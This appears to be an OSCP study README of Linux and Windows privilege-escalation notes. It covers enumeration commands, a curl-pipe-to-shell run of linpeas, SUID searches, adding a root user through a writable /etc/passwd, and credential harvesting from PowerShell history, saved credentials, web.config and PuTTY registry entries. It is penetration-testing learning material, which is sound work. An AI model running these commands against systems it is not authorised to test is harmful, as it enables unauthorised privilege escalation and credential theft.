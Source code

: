 # privellege escilation

## Enumaration

```hostname```
```uname -a```
```cat /proc/version```
```cat /etc/passwd```
```env```
```history```


To get a nice wordlist which will help you in bruteforcing for other user accounts you can cut /etc/passwd file to reduce the noise 

```cat /etc/passwd | cut -d ":" -f 1```


# linux

## Automated tools

## linpeas
```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```
```wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh```

## linenum
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh


# Tactics

## kernel exploits 
Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.


The Kernel exploit methodology is simple;

* Identify the kernel version
* Search and find an exploit code for the kernel version of the target system
* Run the exploit


Most of the cves can be found in [linux exploit cves]( https://www.linuxkernelcves.com/cves )


## Privilege Escalation: Sudo services
Any user can check its current situation related to root privileges using the ```sudo -l``` command.
[GFTOBINS](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

<<<<<<< HEAD:oscp/privescScripts/README.md
## SUID and GUID files
The first step in Linux privilege escalation exploitation is to check for files with the SUID/GUID bit set. This means that the file or files can be run with the permissions of the file(s) owner/group.
Finding suid binaries

```bash
find / -perm -u=s -type f 2>/dev/null
```

find - Initiates the "find" command

/ - Searches the whole file system

-perm - searches for files with specific permissions

-u=s - Any of the permission bits mode are set for the file. Symbolic modes are accepted in this form

-type f - Only search for files

2>/dev/null - Suppresses errors


## Exploiting a writable /etc/passwd

Understanding /etc/passwd

The /etc/passwd file stores essential information, which  is required during login. In other words, it stores user account information. The /etc/passwd is a plain text file. It contains a list of the system’s accounts, giving for each account some useful information like user ID, group ID, home directory, shell, and more.

It's simple really, if we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!

==================

# Windows

Depending on the situation, we might need to abuse some of the following weaknesses:

- Misconfigurations on Windows services or scheduled tasks
- Excessive privileges assigned to our account
- Vulnerable software
- Missing Windows security patches

Windows Users

- Administrative user
- Standard User

## Harvesting passwords from usual spots
The easiest way to gain access to another user is to gather credentials from a compromised machine.

## Powershell history

Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands

```type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```

## Saved Windows Credentials

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:
```cmdkey /list```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.
```runas /savecred /user:admin cmd.exe```


## IIS configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms.Here is a quick way to find database connection strings on the file:

```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString```


## Retrieve Credentials from Software: PuTTY

PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve proxy info: 
```reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```

## Sheduled Tasks

You can check sheduled tasks with the help of command ```schtasks```










